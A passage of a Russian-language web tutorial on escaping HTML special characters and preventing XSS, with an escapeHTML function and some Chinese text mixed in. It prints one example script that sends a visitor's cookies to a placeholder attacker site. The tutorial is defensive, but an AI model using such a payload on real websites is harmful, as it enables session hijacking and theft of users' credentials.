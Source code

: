 ## Практические сценарии и советы по применению

### 1. Отображение HTML-кода

Когда вам нужно отобразить HTML-код на веб-странице, есть несколько способов сделать это:

**Метод 1: Ручное экранирование**.

Заменяет все специальные символы на соответствующие им символьные сущности:

```javascript
function escapeHTML(html) {
  return html
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}
```

**Метод 2: Используйте теги `<pre>` и `<code>`**.

Эти теги сохраняют форматирование текста, но при этом необходимо экранировать специальные символы:

```html
<pre><code>
&lt;div class="example"&gt;
  &lt;p&gt;这是一个例子&lt;/p&gt;
&lt;/div&gt;
</code></pre>
```

**Метод 3: Использование современной библиотеки инструментов**

Библиотеки подсветки кода, такие как Highlight.js, Prism.js, автоматически обрабатывают экранирование.

### 2. Предотвращение XSS-атак

Межсайтовые скриптовые атаки (XSS) - одна из самых распространенных веб-атак. Если ваш сайт позволяет пользователям добавлять комментарии, злоумышленник может вставить вредоносные скрипты, если пользовательский ввод не обрабатывается:

```html
<script>document.location='http://攻击者网站?cookie='+document.cookie</script>
```.

Такие атаки можно эффективно предотвратить, преобразовав специальные символы в пользовательском вводе в символьные сущности:

```javascript
// 用户输入: <script>alert('XSS')</script>
// 转换后: &lt;script&gt;alert('XSS')&lt;/script&gt;
// 浏览器显示: <script>alert('XSS')</script>（而不执行脚本）
```
